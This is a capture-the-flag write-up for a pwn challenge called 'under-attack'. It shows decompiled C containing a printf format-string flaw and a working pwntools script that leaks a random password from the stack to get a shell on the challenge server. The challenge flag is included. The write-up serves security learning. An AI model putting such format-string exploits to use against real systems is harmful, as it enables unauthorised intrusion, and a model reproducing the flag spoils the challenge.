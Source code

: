 # under-attack: pwn / reverse

Flag Proof: `CTF{09aea10d4ab225782586c58698e41c6599c721ec4928ce6a38203ba32ca80507}`

## Summary:

- Opening the binary in `ghidra`:

```c
fd = open("/dev/urandom",0);
  if (fd == -1) {
    puts("Open failed");
    iVar1 = -1;
  }
  else {
    sVar2 = read(fd,&flag,4);
    if (sVar2 == 4) {
      close(fd);
      puts("We are under attack, We need to extract the secret password from system!");
      fflush(stdout);
      fgets(buffer,0x400,stdin);
      printf(buffer);
      printf("Please insert the password: ");
      fflush(stdout);
      __isoc99_scanf(&DAT_00400b86,&not_flag);
      if (flag == not_flag) {
        puts("You are the one who attack the infrastructure now!");
        system("/bin/sh");
      }
      else {
        puts("Permission denied!\n");
      }
```

- There we can see that it takes input from `/dev/urandom` and puts it into flag
- We have to provide the input to be the same as the value from `flag`
- Also we can see that `printf` is being used, which gives us the possibility of leaking the stack, and the value we need is somewhere on the stack. I chose the easier way of doing it, and just trying `%p` values till it gets the right one

```python
from pwn import *

context.log_level = 'error'

for i in range (0,100):
    p = remote('34.159.78.10',30505)
    p.recv()
    payload = "%{}$p".format(i)
    p.sendline(payload.encode())

    urandom = p.recv().decode()[2:10]

    p.sendline(urandom)
    if b'You' in p.recv():
        p.interactive()
```

- Running it , and we get a shell on the box

![Untitled](under-attack%20pwn%20reverse%2005294892f5944d0ca587c349e22c7eff/Untitled.png)